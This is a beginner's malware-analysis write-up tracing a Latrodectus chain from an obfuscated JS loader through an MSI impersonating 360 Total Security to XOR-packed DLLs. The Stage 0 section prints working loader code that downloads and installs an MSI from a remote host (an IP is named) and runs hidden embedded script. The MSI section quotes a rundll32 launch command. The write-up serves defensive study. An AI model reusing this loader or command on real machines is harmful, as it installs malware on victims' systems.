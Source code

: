 ### ArachnoAnalysis: Spinning Webs with Latrodectus - A Novice's Dive into Malware Mysteries

![](assets/header.png)

## Table of contents
- [Intruduction](#intruduction)
- [Stage 0 - The JS](#stage-0---the-js)
- [Stage 1 - The MSI package](#stage-1---the-msi-package)
- [Stage 2 - The DLL](#stage-2---the-dll)
    - [Unpacking the "yhDm^" section](#unpacking-the-yhdm-section)
- [Stage 3 - Another DLL](#stage-3---another-dll)


## Intruduction


## Stage 0 - The JS

Stage 0 is appearing as an obfuscated JS file `<filename>.js` which contains the code that attempts to download an MSI package from a specified URL `http://45.95.11.217/ad.msi`. After downloading the MSI package, the JS file is using the `ActiveXObject` to iternact with Windows Installer and installs the product using the `InstallProduct()` method. 

The variable `a` employs an Immediately Invoked Function Expression (IIFE), encapsulating a function designed to locate and execute a script embedded within the current script file `WScript.ScriptFullName`. It utilizes the `Scripting.FileSystemObject` to navigate the file system, particularly for reading the lines of the script file. Within this context, the `e()` function iterates through the script file, identifying and extracting embedded script content, storing it in `d`. Subsequently, the `h()` function attempts to execute the extracted script content, provided it's not empty. The resulting object includes a method `j`, intended to orchestrate the entire process of discovering and executing the embedded script.

The `a.j()` invocation initiates the execution sequence by calling the `j` method of the `a` object. This method, in turn, endeavors to execute the embedded script discovered within the current script file.

```js
function installFromURL() {
        var installer;
        var msiPath;
        try {
            installer = new ActiveXObject("WindowsInstaller.Installer");
            installer.UILevel = 2;
            msiPath = "http://<snip>/<filename>.msi";
            installer.InstallProduct(msiPath);
        } catch (e) {
            WScript.Echo("failed: " + e.message);
        }
    }
    installFromURL();
    
    var a = (function() {
        var b = new ActiveXObject("Scripting.FileSystemObject"),
            c = WScript.ScriptFullName,
            d = "";
    
        function e() {
            if (!b.FileExists(c)) return;
    
            var f = b.OpenTextFile(c, 1);
            while (!f.AtEndOfStream) {
                var g = f.ReadLine();
                if (g.slice(0, 4) === "") d += g.substr(4) + "\n";
            }
            f.Close();
        }
    
        function h() {
            if (d !== "") {
                var i = new Function(d);
                i();
            }
        }
 
        return {
            j: function() {
                try {
                    e();
                    h();
                } catch (k) {}
    
            }
    
        };
    })();
    a.j();
```

## Stage 1 - The MSI package
An MSI package itself cannot be considered malicious because many products use it for their installation processes. However, in the exciting realm of malware analysis, we have to give it a chance to show its malicious side, RIGHT??? RIGHT... Let's dive in and see what mischief awaits! 

In order to analyze the MSI package, we have to install a specific 'unpacker' and see what the package contains. I chose to use the [lessmsi](https://github.com/activescott/lessmsi) tool for this purpose.

Let's start by diving deep into the package extractions, where we can find that a suspicious DLL is being extracted from the package named `360total.dll`.
![](assets/msi/1.PNG)

Very interesting finding, BUT let's proceed with the package investigation and explore the tables.

In the property table, we can find information regarding the package creator, such as the manufacturer, description, and product name. Based on the name `360 Total`, the entire setup seems to be an impersonation attempt of the 360 Total security solution AV.

![](assets/msi/2.PNG)


A very interesting table is the `CustomAction`, where an actor can insert their own custom actions or commands into the package flow. Here, they could potentially execute the extracted `360total.dll`—which is likely malicious—.

* `C:/Windows/System32/rundll32.exe [LocalAppDataFolder]sharepoint\360total.dll, homq`

The above command is executing the DLL with the `homq` for entry point, which will be executed.


Note that `rundll32.exe` is a legitimate executable that exists on Windows. However, like other similar executables, it can be used in a malicious manner. e.g. [LOLBAS Rundll32](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)

![](assets/msi/3.PNG)

Finally, it appears that the entire packaging process was carried out using Caphyon Advanced Installer.

![](assets/msi/4.PNG)

## Stage 2 - The DLL

Let's proceed by extracting `360total.dll` and begin analyzing it. We'll open it using the `Detected It Easy` tool, which is already installed on FlareVM. \
Based on the `DIE` tool results we can clearly see that our file is a `Linker: Microsoft Linker(14.0, Visual Studio 2015 14.0*)[DLL]`.

![](assets/360total/1.PNG)

Further exploring `DIE` features, we can uncover the DLL exports, which essentially are the available entry points, or functions, that can be utilized during execution. The available entry points are:
- homq
- CreateObject
- RegisterInstallTime

The `homq` entry point seems very familiar, as we identified a rundll32.exe command executed within the MSI Installer.

![](assets/360total/2.PNG)

Alright, let's have a bit more fun and investigate the available section headers of the DLL. Among the 7 available section headers, the one that particularly intrigues me is `"yhDm^"`, which appears to be packed and likely encrypted. 

Using strings at packed section we can see that the section is probably encrypted.

![](assets/360total/3.PNG)

### Unpacking the "yhDm^" section

Now that we've discovered that the "yhDm^" section is packed and encrypted, let's open Ghidra and dive into some nasty code.

Within the `entry()` function, there's a call to `FUN_180070044`, and the code exhibits various forms of obfuscation, such as variable reassignment and string concatenation. However, there's a specific section of code where the `DAT_180175000` is decrypted using XOR functionality. Before delving into that part, it's important to note that at the beginning of the mentioned function, there are some variables with unusual hexadecimal values, indicating possible strings obfuscation.

![](assets/360total/4.PNG)

In the following image, we can observe that `DAT_180175000` corresponds to the packed section `"yhDm^"`. The code loads the encrypted data from this specific data block and decrypts it using XOR. Since the data is encrypted we have to decrypt the specific data block with the key that encrypts the data.

![](assets/360total/5.PNG)

After saving the encrypted block to a file in hexadecimal format, it's time for the CyberChef playground. Decoding the hex data reveals the absence of an MZ string at the beginning, indicating it's not a `DOS MZ executable`. However, at the end of the data, there's a strange repetitive string, `S5XlpOdyMN(U)RxRw`, which serves as the actual XOR key. This occurs because when XORing something containing NULL bytes, the XOR key is displayed instead.

![](assets/360total/6.PNG)

**ITS TIME FOR MZ!** Using the XOR key, we can decrypt the data, save it, and start investigating the new findings.

![](assets/360total/7.PNG)

## Stage 3 - Another DLL

**REPEAT THE SAME STEPS!** Our new journey starts by opening the unpacked file with the `DIE` tool and beginning our investigation. Interestingly, the file yields the same results as the first DLL: `Linker: Microsoft Linker(14.0, Visual Studio 2015 14.0*)[DLL]`.

![](assets/unpackedll/1.png)

Same results, but even juicier DLL entry points! This DLL contains four specific entry points, and it appears that each entry point exhibits different behavior. The available entry points are:
- extra
- follower
- run
- scub

![](assets/unpackedll/2.PNG)

The same entry points can be found when the DLL is decompiled, possibly because the malware author forgot to delete their comments.

![](assets/unpackedll/3.PNG)